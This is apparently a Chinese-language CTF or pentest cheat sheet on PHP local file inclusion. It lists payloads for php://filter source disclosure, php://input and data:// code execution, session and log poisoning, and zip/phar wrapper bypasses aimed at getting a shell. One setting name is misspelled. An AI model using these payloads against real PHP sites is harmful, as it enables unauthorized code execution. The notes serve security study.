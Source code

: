 ## log文件

- apache log
- mysql log
- ssh log
    - `/var/log/auth.log`


## php://filter

- `php://filter/convert.base64-encode/resource=index.php`
- `php://filter/read=string.rot13/resource=index.php`

## php://input

- `?page=php://input`
    - post data: `<?php system("net user"); ?>`
    - 需要有开启`url_allow_include`，5.4.0直接废除

## phpinfo

- 对server以form-data上传文件，会产生tmp档
- 利用phpinfo得到tmp档路径和名称
- Get shell

## php session

- Session一般存在`sess_{PHPSESSID}`中
- 可以透过修改Cookie再LFI拿shell
- 以下为常见存放路径
    - /var/tmp/
    - /tmp/
    - /var/lib/php5/
    - /var/lib/php/

## data://

- 条件
    - allow_url_fopen: On
    - allow_url_include: On
- 用法
    - `?file=data://text/plain,<?php phpinfo()?>`
    - `?file=data:text/plain,<?php phpinfo()?>`
    - `?file=data://text/plain;base64,PD9waHAgcGhwaW5mbygpPz4=`

## zip / phar

- 适用验证副档名时
- zip
    - 新建zip，裡头压缩php脚本(可改副档名)
    - `?file=zip://myzip.zip#php.jpg`
- phar
    - ```php
        <?php
            $p = new PharData(dirname(__FILE__).'/phartest.zip',0,'phartest2',Phar::ZIP);
            $x = file_get_contents('./a.php');
            $p->addFromString('b.jpg', $x);
        ?>
    - 构造 `?file=phar://phartest.zip/b.jpg`
